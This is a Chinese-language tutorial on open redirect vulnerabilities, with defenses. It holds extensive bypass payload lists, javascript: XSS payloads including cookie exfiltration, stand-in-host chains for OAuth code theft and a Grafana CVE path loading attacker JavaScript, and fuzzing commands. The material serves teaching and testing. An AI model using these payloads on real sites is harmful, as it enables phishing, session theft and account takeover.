



# Open Redirect 漏洞深度解析与实战利用指南

---

# 0x01 背景与原理

## 1.1 什么是 Open Redirect

**Open Redirect（开放重定向）** 是指 Web 应用程序将用户浏览器重定向到由**用户可控参数**指定的目标 URL，而未对目标地址进行充分的安全校验。攻击者利用此缺陷，诱使受害者从可信站点跳转至恶意页面，绕过安全警告和域名白名单保护。

> **核心本质**：应用程序信任了来自用户输入的重定向目标，将"数据"当作"导航指令"执行。

## 1.2 漏洞成因

### 1.2.1 根因分析

Open Redirect 的根因并非单一的编码错误，而是**输入验证粒度与 URL 解析复杂性之间的不对等**：

1. **协议层**：HTTP 协议本身不禁止任意 `Location` 头值，重定向目标的合法性完全由应用自行判断
2. **解析层**：URL 规范 (RFC 3986) 极其复杂，不同组件（浏览器、服务端框架、代理）对同一 URL 的解析可能产生分歧
3. **业务层**：许多业务场景（登录后回跳、OAuth 回调、支付完成跳转）天然需要"把用户送到某个地方"，开发者倾向于信任而非校验

### 1.2.2 防御失效的根本机制

```
[用户输入 URL] → [服务端校验] → [浏览器解析] → [用户被重定向]
                    ↑                               ↑
              校验的是"开发者认为的URL"        浏览器解析的是"实际有效的URL"
              
              当两者不一致时 → Open Redirect
```

关键矛盾在于：**服务端校验所用的 URL 解析器与浏览器实际导航所用的解析器不同**。

## 1.3 影响与风险

| 攻击场景 | 依赖条件 | 最大危害 |
|----------|----------|----------|
| 钓鱼攻击 | URL 参数可控 | 凭据窃取（域名可信度高） |
| OAuth Token 窃取 | 存在 OAuth/OIDC 流程且 `redirect_uri` 验证不严 | 账户接管 (Account Takeover) |
| XSS 升级 | `javascript:` 协议未被过滤 | 会话窃取、任意代码执行 |
| SSRF 升级 | 重定向目标指向内部地址 | 内网探测、敏感信息泄露 |
| 缓存污染 | 存在 CDN/代理缓存 | 其他用户被持久化重定向 |

**风险等级**：
- **高**：当可串联 OAuth 或 XSS 时
- **中**：独立作为钓鱼跳板（需用户交互）
- **严重**：当 `javascript:` 协议未被过滤或可指向 `file://` 协议时

---

# 0x02 攻击分类体系

## 2.1 攻击面分类

| 攻击面 | 对应技术 | 风险等级 |
|--------|----------|----------|
| 客户端利用 (Client-Side Exploitation) | `javascript:` 协议注入、SVG 文件上传 | 严重 |
| 认证/授权绕过 (Auth Bypass) | OAuth `redirect_uri` 劫持、MFA 跳转绕过 | 高 |
| 配置缺陷 (Configuration Weakness) | 服务端白名单校验逻辑缺陷 | 中 |
| 注入类 (Injection) | CRLF + Location 头注入、参数污染 | 高 |

## 2.2 影响维度

```
[x] 身份伪造    — 利用可信域名发送钓鱼链接
[x] 信息泄露    — OAuth Code/Token 通过 Referer 泄露
[x] 权限提升    — 串联 OAuth 实现账户接管
[ ] 机密性破坏
[ ] 完整性破坏
[ ] 可用性破坏
[ ] 远程代码执行
```

## 2.3 绕过技术全景矩阵

| 技术\效果 | 绕过白名单 | 绕过协议过滤 | 绕过字符串匹配 | 难度 |
|-----------|-----------|-------------|---------------|------|
| 主机表示变形 (IPv4/IPv6/十进制) | ✓ | | ✓ | 低 |
| 通配符 DNS | ✓ | | ✓ | 低 |
| Userinfo 欺骗 (`@`) | ✓ | | ✓ | 低 |
| 反斜杠混淆 | ✓ | | ✓ | 低 |
| 协议相对 URL (`//`) | ✓ | ✓ | ✓ | 低 |
| CRLF + `javascript:` | | ✓ | ✓ | 中 |
| Fragment 走私 | ✓ | | ✓ | 高 |
| URL 编码嵌套 | ✓ | ✓ | ✓ | 中 |

---

# 0x03 详细分析

## 3.1 重定向目标绕过技术

### 3.1.1 主机名表示变形（Bypass Host Whitelist）

**原理**：当应用校验"重定向目标是否属于白名单主机"时，使用字符串匹配或简单的 DNS 解析，而浏览器的 URL 解析器接受同一主机的多种合法表示形式。

**攻击向量**：

```text
# === IPv4 回环地址变体 ===
127.0.0.1           # 标准点分十进制
127.1               # 省略中间段（等同于 127.0.0.1）
2130706433          # 十进制整数表示
0x7f000001          # 十六进制表示
017700000001        # 八进制表示

# === IPv6 回环地址变体 ===
[::1]               # 标准 IPv6 回环
[0:0:0:0:0:0:0:1]  # 完整 IPv6 回环
[::ffff:127.0.0.1]  # IPv4-mapped IPv6 地址

# === 大小写与尾点混淆 ===
localhost.          # 尾点（FQDN 标记）
LOCALHOST           # 大小写变体
127.0.0.1.          # 尾点
```

**通配符 DNS（指向回环地址的公共 DNS 记录）**：

```text
# 这些公共 DNS 记录均解析到 127.0.0.1
lvh.me              # localhost 别名
sslip.io            # 泛解析，如 127.0.0.1.sslip.io
traefik.me          # 开发调试用
localtest.me        # 本地测试域名
```

> **实战关键**：当白名单仅检查"是否为 `target.com` 的子域"时，通配符 DNS 尤为有效——`127.0.0.1.sslip.io` 在字符串层面是合法的子域，但解析后指向回环地址。

### 3.1.2 协议相对 URL（Scheme-Relative URL）

**原理**：以 `//` 开头的 URL 是协议相对引用 (network-path reference)，浏览器会保持当前页面的协议（HTTP/HTTPS）不变，仅替换主机名部分。多数服务端校验逻辑预期的是"完整的绝对 URL"，看到 `//` 开头的输入会判断为相对路径而放行。

```text
# 当用户在 https://trusted.com 时，此 URL 实际指向：
//evil.example       → https://evil.example
```

**绕过效果**：
- 绕过了"必须以 `https://trusted.com` 开头"的前缀检查
- 绕过了"必须以 `/` 开头"的相对路径限制（`//` 被解析为绝对 URL）

### 3.1.3 Userinfo 欺骗（`@` 符号利用）

**原理**：URL 规范中 `user:password@host` 是合法的认证信息语法。浏览器以 `@` 符号**之后**的主机名为实际导航目标，但简单的字符串匹配看到的是 `@` **之前**的域名。

```text
# 服务端字符串匹配 "看到" trusted.tld → 放行
# 浏览器解析 "走到" attacker.tld  → 被劫持
https://trusted.tld@attacker.tld/
https://trusted.tld@evil.example/path
```

### 3.1.4 反斜杠解析混淆

**原理**：不同组件对 `\` 字符的解析不一致：
- **服务端**（Node.js/PHP URL parser）：`\` 被视为路径分隔符或普通字符
- **浏览器**：将 `\` 标准化为 `/`，并将 `\@` 之前的部分解释为 userinfo

```text
# 服务端看到: host = trusted.tld, path = \@attacker.tld (路径合法)
# 浏览器看到: userinfo = trusted.tld, host = attacker.tld
https://trusted.tld\@attacker.tld/
```

### 3.1.5 前缀/后缀匹配绕过

**原理**：许多白名单校验仅对 URL 做简单的 `startsWith` 或 `contains` 检查。

```text
# 前缀匹配绕过（"以 trusted.tld 开头" → 通过）
https://trusted.tld.evil.example/

# 后缀包含绕过（"包含 trusted.tld" → 通过）
https://evil.example/trusted.tld

# "仅允许特定路径"突破 — 打破绝对 URL 检测
/\\evil.example          # 以 / 开头但浏览器解析为绝对 URL
/..//evil.example         # 路径遍历混淆
```

### 3.1.6 Null 字节与空白字符绕过

```text
evil.example%00           # Null 字节截断（部分语言）
%09//evil.example         # 制表符前缀
evil.example%0d%0a        # CRLF 注入前缀
```

---

## 3.2 javascript: 协议 — Open Redirect 升级 XSS

### 3.2.1 技术机制

**原理**：当应用程序重定向到用户可控的 URL 时，如果未过滤 `javascript:` 协议，攻击者可将重定向目标设为 JavaScript URI。浏览器在导航到 `javascript:` URL 时，会在当前页面的 Origin 上下文中**执行 URI 中包含的 JavaScript 代码**。

> **根因**：浏览器的同源策略不限制 `javascript:` URI —— 当页面通过 `Location` 头或 `window.location` 导航到 `javascript:` URI 时，代码在**当前源**的上下文中执行，从而可访问 Cookie、LocalStorage、SessionStorage 等敏感数据。

### 3.2.2 Payload 矩阵

**基础 Payload**：

```javascript
// 最简形式
javascript:alert(1)
```

**CRLF 绕过 "javascript" 关键词过滤**：

```text
# CRLF 插入 javascript 字符串中间
java%0d%0ascript%0d%0a:alert(0)
```

**子域绕过 + JavaScript 注释利用**：

```text
# // 在 JavaScript 中是单行注释符
# URL 编码的 %0A (换行) 结束注释行，后续代码执行
javascript://sub.domain.com/%0Aalert(1)

# 双重 URL 编码绕过 FILTER_VALIDATE_URL (PHP)
javascript://%250Aalert(1)

# 带查询参数的变体
javascript://%250Aalert(1)//?1      # // 注释掉 ?1
javascript://%250A1?alert(1):0       # 三元运算符
```

**空白与 Tab 混淆**：

```text
%09Jav%09ascript:alert(document.domain)
/%09/javascript:alert(1)
/%09/javascript:alert(1);
```

**反斜杠与路径前缀混淆**：

```text
# 反斜杠前缀绕过
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)

# Tab 前缀 + URL 编码
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
```

**白名单域名 + 换行绕过**：

```text
# 通过白名单域名检查后，利用 %0A 执行 JS
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
javascript://anything%0D%0A%0D%0Awindow.alert(document.cookie)
```

**高级变体**：

```text
# jsFuck 友好字符
javascript:confirm(1)
javascript:prompt(1)

# 奇特路径前缀
/x:1/:///%01javascript:alert(document.cookie)/

# HTML 实体前缀
<>javascript:alert(1);

# 闭合引号的 payload（当重定向出现在 JS 字符串内时）
";alert(0);//

# URL 双重编码 + 行注释
javascript://%250Alert(document.location=document.cookie)
```


### 3.2.3 简化版 — 仅协议过滤绕过的精炼 Payload 集

```text
# Scheme-relative（复用当前协议）
//evil.example

# Userinfo 欺骗
https://trusted.example@evil.example/

# 反斜杠混淆（服务端校验 → 浏览器标准化）
https://trusted.example\@evil.example/

# 无协议 + 控制字符
evil.example%00
%09//evil.example

# 前缀/后缀匹配缺陷
https://trusted.example.evil.example/
https://evil.example/trusted.example

# 仅允许路径时突破
/\\evil.example
/..//evil.example
```

---

## 3.3 SVG 文件上传实现 Open Redirect

**原理**：当应用允许上传 SVG 文件且开启 `onload` 事件处理时，SVG 的 JavaScript 执行能力可用于触发重定向。

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
```

**利用场景**：
- 头像/图片上传接口接受 SVG
- 富文本编辑器图片嵌入
- 文档管理系统中的 SVG 预览

---

## 3.4 Fragment 走私 + 客户端路径遍历（进阶链）

**原理**：此高级攻击链利用了三层解析差异：

1. **服务端 URL 解析** (Go `url.Parse`)：只检查 `Path`，忽略 `Fragment`
2. **SPA 前端路由**：对编码路径"验证一份，返回另一份"
3. **浏览器标准化**：解码编码后的 `../`，执行路径遍历

### 3.4.1 攻击步骤



### 3.4.2 绕过过程详解

**第一步 — Fragment 走私突破服务端校验**：

```http
GET /user/auth-tokens/rotate?redirectTo=/%23/..//\//attacker.com HTTP/1.1
Host: target.grafana.com
```

- Go `url.Parse` 解析结果：`Path=/`, `Fragment=/..//\//attacker.com`
- 服务端校验逻辑：检查 `Path` + `path.Clean()` → `/` 在白名单中 ✓
- 响应中 `Location` 头：`/\//attacker.com`（Fragment 被拼回路径）
- 浏览器解析 `Location`：导航到 `attacker.com` → **Open Redirect 达成**

**第二步 — 客户端路径遍历抵达重定向端点**：

```text
/dashboard/script/%253f%2f..%2f..%2f..%2f..%2f..%2fuser/auth-tokens/rotate
```

- SPA 解码：得到 `/dashboard/script/%3f/../../../../../user/auth-tokens/rotate`
- 验证函数：去除 `?` 后 → `/dashboard/script/` → 无 `..` → 通过 ✓
- 实际返回：原始编码路径
- 浏览器二次解码：`%2f` → `/`，执行 `/../../../` 遍历
- 最终路径：`/user/auth-tokens/rotate` → 触发重定向端点

**第三步 — 完整攻击链 URL**：

```text
https://<grafana>/dashboard/script/%253f%2f..%2f..%2f..%2f..%2f..%2fuser%2fauth-tokens%2frotate%3fredirectTo%3d%2f%2523%2f..%2f%2f%5c%2fattacker.com%2fmodule.js
```

**攻击效果**：
1. CSPT 遍历至 `/user/auth-tokens/rotate` 端点
2. Fragment 走私使 `redirectTo` 参数指向 `attacker.com/module.js`
3. 302 跳转加载攻击者 JS（需配置 CORS）
4. 在目标 Origin 上下文执行 → 会话窃取 / 账户接管 (ATO)

---

# 0x04 攻击链与联动

## 4.1 攻击链全景图



## 4.2 具体串联路径

### 4.2.1 Open Redirect → XSS

```
redirect?url=javascript://%250Aalert(document.cookie)
→ 服务端输出 Location: javascript://%0Aalert(document.cookie)
→ 浏览器执行 JS → Cookie 窃取
```

### 4.2.2 Open Redirect → OAuth Token 劫持

```
1. 攻击者构造恶意 redirect_uri:
   https://auth.target.com/authorize?client_id=victim_app&redirect_uri=https://auth.target.com/redirect?url=//evil.example

2. OAuth 服务端校验 redirect_uri:
   - startsWith("https://auth.target.com") → 通过 ✓

3. 授权完成后，重定向到:
   https://auth.target.com/redirect?url=//evil.example

4. Open Redirect 将浏览器导向:
   //evil.example?code=AUTHORIZATION_CODE

5. 攻击者从 Referer 或 URL 参数获取授权码
```

### 4.2.3 Open Redirect → SSRF 内网探测

```
redirect?url=//127.0.0.1:8080/admin
→ 重定向到内网地址
→ 判断响应时间/内容差异进行端口扫描
```

### 4.2.4 CRLF + Open Redirect → 缓存投毒

```http
GET /redirect?url=%0d%0aLocation:%20//evil.example%0d%0a HTTP/1.1
Host: target.com

# 响应被 CDN 缓存，后续正常用户也被重定向
```

---

# 0x05 检测与防御

## 5.1 攻击侧 — 检测与挖掘

### 5.1.1 参数发现

**常见注入参数**（按出现频率排序）：

```text
# 高优先级（最可能存在重定向逻辑）
redirect, redirect_uri, redirect_url, redirectUrl, RedirectUrl
url, uri, next, return, returnTo, return_to, return_path, ReturnUrl
dest, destination, desturl, redir, rurl, continue

# 中优先级（业务相关重定向）
goto, go, to, jump, jump_url, link, linkAddress, location
forward, forward_url, callback_url, service, sp_url
checkout_url, login, logout, success, action, action_url

# 低优先级（图片/资源类可能也有重定向）
image_url, pic, src, qurl, ext, clickurl, u, u1
view, q, request, backurl, burl, referer, originUrl

# 路径中的注入位置
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
/click?u={payload}
/j?url={payload}
```

### 5.1.2 自动化挖掘流程

```bash
# 1) 历史 URL 收集
cat domains.txt \
  | gau --o urls.txt          # 或 waybackurls / katana / hakrawler

# 2) 筛选含重定向参数的 URL
rg -NI "(url=|next=|redir=|redirect|dest=|rurl=|return=|continue=)" urls.txt \
  | sed 's/\r$//' | sort -u > candidates.txt

# 3) 使用 OpenRedireX 批量模糊测试
cat candidates.txt | openredirex -p payloads.txt -k FUZZ -c 50 > results.txt

# 4) 手动确认（关注 301/302/307 和 Location 头）
awk '/30[1237]|Location:/I' results.txt
```

### 5.1.3 单点验证

```bash
# 基础验证
curl -s -I "https://target.tld/redirect?url=//evil.example" | grep -i "^Location:"

# 跟随重定向查看最终去向
curl -s -L -o /dev/null -w "%{url_effective}\n" "https://target.tld/redirect?url=//evil.example"

# 测试 javascript: 协议
curl -s -I "https://target.tld/redirect?url=javascript://%250Aalert(1)"
```

### 5.1.4 SPA 客户端重定向检测

不要忽略客户端 Sink 点。搜索以下模式：

```javascript
// 搜索这些 JS 模式
window.location =           // 直接赋值
window.location.href =      // href 赋值
window.location.assign()    // assign 方法
window.location.replace()   // replace 方法

// 框架特有的重定向
router.push()               // Vue Router
navigate()                  // React Router
redirect()                  // Next.js
```

```html
<!-- Meta Refresh 同样可利用 -->
<meta http-equiv="refresh" content="0;url=//evil.example">

<!-- 从 URL 参数读取重定向目标 -->
<script>location = new URLSearchParams(location.search).get('next')</script>
```

> **关键点**：Next.js 等框架的 `redirect()` 函数若接收用户输入，直接形成 Open Redirect。永远不要将未校验的用户输入作为重定向目标。

### 5.1.5 工具清单

| 工具 | 用途 | 链接 |
|------|------|------|
| OpenRedireX | 批量模糊测试 Open Redirect | github.com/devanshbatham/OpenRedireX |
| Oralyzer | Open Redirect 探测与验证 | github.com/0xNanda/Oralyzer |
| PayloadsAllTheThings | Payload 字典库 | github.com/swisskyrepo/PayloadsAllTheThings |

```bash
# OpenRedireX 安装与使用
git clone https://github.com/devanshbatham/OpenRedireX && cd OpenRedireX && ./setup.sh
cat list_of_urls.txt | ./openredirex.py -p payloads.txt -k FUZZ -c 50
```

---

## 5.2 防御侧 — 分层阻断策略

### 5.2.1 第一层：消除动态重定向（首选方案）

```text
✗ 坏设计:
  /redirect?url=https://evil.example
  header("Location: " + request.getParameter("url"))

✓ 好设计:
  /redirect?page=profile
  → 服务端查表: { "profile": "/app/profile" }
  → header("Location: /app/profile")
```

**核心思路**：不要接受任意 URL，改为接受**页面标识符**，由服务端映射到实际路径。

### 5.2.2 第二层：严格输入校验（次选方案）

当必须接受 URL 时，执行以下校验：

1. **协议白名单**：仅允许 `http://` 和 `https://`，拒绝 `javascript:`、`data:`、`file:`、`vbscript:`
2. **域名白名单**：使用 URL 解析库（而非字符串匹配）提取 host，与白名单比对
3. **规范化后再比较**：将主机名统一为小写、移除尾点、解码 Punycode、解析为 IP 后与白名单比较
4. **拒绝 Userinfo**：URL 中不应出现 `@` 符号
5. **拒绝裸 IP**：除非有明确的业务需求

```python
from urllib.parse import urlparse

ALLOWED_HOSTS = {"trusted.example", "cdn.trusted.example"}

def validate_redirect_url(url: str) -> str | None:
    parsed = urlparse(url)
    if parsed.scheme not in ("http", "https"):
        return None
    if "@" in parsed.netloc:
        return None
    hostname = parsed.hostname.lower().rstrip(".")
    if hostname not in ALLOWED_HOSTS:
        return None
    return url
```

### 5.2.3 第三层：浏览器安全头

```http
# 限制 Referer 泄露（减少 Token 劫持风险）
Referrer-Policy: strict-origin-when-cross-origin

# CSP 限制导航目标（浏览器支持有限但值得配置）
Content-Security-Policy: navigate-to https://trusted.example
```

### 5.2.4 第四层：监控与告警

```text
# WAF 规则（示例 — ModSecurity/SecRule）
SecRule REQUEST_URI "@rx (?:%0[dD]%0[aA])" \
  "id:1001,msg:'CRLF Injection in Redirect',block"

# 服务端日志监控 — 关注以下模式：
- redirect 参数中出现 // （协议相对 URL）
- redirect 参数中出现 @  （Userinfo 欺骗）
- redirect 参数中出现 %0d%0a（CRLF）
- Location 头中出现外部域名（非白名单）
```

---

# 0x06 实战要点

## 6.1 测试方法论



## 6.2 常见失败与回退策略

| 失败场景 | 原因 | 回退策略 |
|----------|------|----------|
| 参数值被 URL 编码 | 服端二次编码防护 | 尝试双重编码 |
| 固定前缀拼接 | `Location: https://trusted.com/` + input | 尝试 `@evil.example` 使其成为 userinfo |
| 仅允许相对路径 | 校验 "must start with /" | 尝试 `//evil.example` 或 `/\\evil.example` |
| 白名单域名校验 | DNS 级 or 正则 | 尝试通配符 DNS 或子域欺骗 |
| 302 响应但不跟随 | curl 默认不跟随 | 使用 `curl -L` 跟踪最终去向 |

## 6.3 关键提醒

- **不要只看 `Location` 头**：有些应用通过 `<meta refresh>` 或 `window.location` 实现重定向
- **SPA 同样存在风险**：前端路由中若 `router.push(userInput)` 则等同于 Open Redirect
- **OAuth 流程是放大器**：Open Redirect 在 OAuth 上下文中直接升级为账户接管 (ATO)
- **Fragment 不发送到服务端**：但服务端返回的 Fragment 可能被拼入响应，产生二次解析
- **Referer 头是信息泄露源**：即使重定向失败，Referer 头可能已携带敏感参数
- **URL 解析器差异是核心武器**：理解浏览器 vs 框架 vs WAF 的 URL 解析差异等于掌握绕过钥匙

---

# 0x07 参考资料

- [PayloadsAllTheThings — Open Redirect Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect)
- [Open-Redirect-Payloads by cujanovic](https://github.com/cujanovic/Open-Redirect-Payloads)
- [PortSwigger Web Security Academy — DOM-based Open Redirection](https://portswigger.net/web-security/dom-based/open-redirection)
- [Open Redirect Cheatsheet — pentester.land](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)
- [Open Redirects — Bypassing CSRF Validations Simplified](https://infosecwriteups.com/open-redirects-bypassing-csrf-validations-simplified-4215dc4f180a)
- [OpenRedireX — Open Redirect Fuzzer](https://github.com/devanshbatham/OpenRedireX)
- [Grafana CVE-2025-6023 — Fragment Smuggling + CSPT 绕过链](https://blog.ethiack.com/blog/grafana-cve-2025-6023-bypass-a-technical-deep-dive)
- [Oralyzer — Open Redirect Detection Tool](https://github.com/0xNanda/Oralyzer)
